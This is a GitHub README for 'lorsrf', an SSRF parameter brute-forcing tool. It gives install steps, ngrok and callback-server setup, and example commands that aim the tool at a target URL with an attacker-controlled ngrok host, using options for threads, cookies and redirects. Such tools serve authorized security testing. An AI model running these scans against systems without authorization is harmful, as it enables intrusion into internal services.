

# lorsrf
SSRF parameter bruteforce tool


## install
* download it 
```bash
➜  git clone https://github.com/knassar702/lorsrf
➜  cd lorsrf
➜  sudo pip3 install requests
```
* install <a href='https://www.youtube.com/watch?v=4sF1ATYwr3U'>ngrok tool </a>

## Steps :
* run your ngrok
` ./ngrok http 9090`
* run `server.py` script and add ngrok port
`python3 server.py 9090`
* run `lorsrf.py` and add ngrok host using `-s` option

## How can i use it .? 

`cat YOUR_LIST.txt | python3 lorsrf.py -t URL_TARGET -s YOUR_HOST`
  ## Examples :
```bash
$ cat paramters.txt | python3 lorsrf.py -t http://target.com -s http://53252.ngrok.io
```
  * add threads
```bash
$ cat paramters.txt | python3 lorsrf.py -t http://target.com -s http://53252.ngrok.io --threads=50
```
  * add timeout
```bash
$ cat paramters.txt | python3 lorsrf.py -t http://target.com -s http://53252.ngrok.io --timeout=4
```
  * add cookies
```bash
$ cat paramters.txt | python3 lorsrf.py -t http://target.com -s http://53252.ngrok.io -c 'user=5&PHPSESSION=5232'
```
  * Follow redirects
```bash
$ cat paramters.txt | python3 lorsrf.py -t http://target.com -s http://53252.ngrok.io -r
```

## GIF

